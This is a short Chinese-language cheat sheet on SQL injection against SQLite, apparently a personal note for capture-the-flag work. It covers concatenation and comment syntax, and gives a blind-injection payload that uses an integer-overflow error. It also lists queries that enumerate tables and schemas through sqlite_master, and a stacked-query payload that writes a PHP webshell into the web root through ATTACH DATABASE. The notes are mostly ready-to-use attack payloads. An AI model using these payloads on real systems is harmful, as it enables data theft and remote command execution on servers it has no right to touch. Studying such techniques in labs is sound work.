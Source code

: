 # 语法
	- 拼接字符串： `||`
	- 注释：` --`
	- 不等于：`<>`
	- 不支持弱类型：数字不会自动转换成字符串
- # sqlite
	- [参考](https://www.sjkjc.com/sqlite-ref/string-functions/)
	- ```
	  a'||1=2||abs(case(2)when(1)then(1)else(0x8000000000000000)end)||'
	  ```
	- sqlite 中没有`ascii`，用`unicode`代替
	- ```
	  (select group_concat(name) from sqlite_master where type = 'table') # 表名
	  
	  (SELECT sql FROM sqlite_master WHERE tbl_name = 'table_name' AND type = 'table') # 创建表使用的sql
	  ```
	- 写webshell
		- ```
		  1; ATTACH DATABASE '/var/www/html/data/qazxsw.php' as hackz;CREATE TABLE hackz.pwn (dataz text);INSERT INTO hackz.pwn (dataz) VALUES ('<?php echo system(\"/readflag\"); ?>'); -- xyz
		  ```
	-
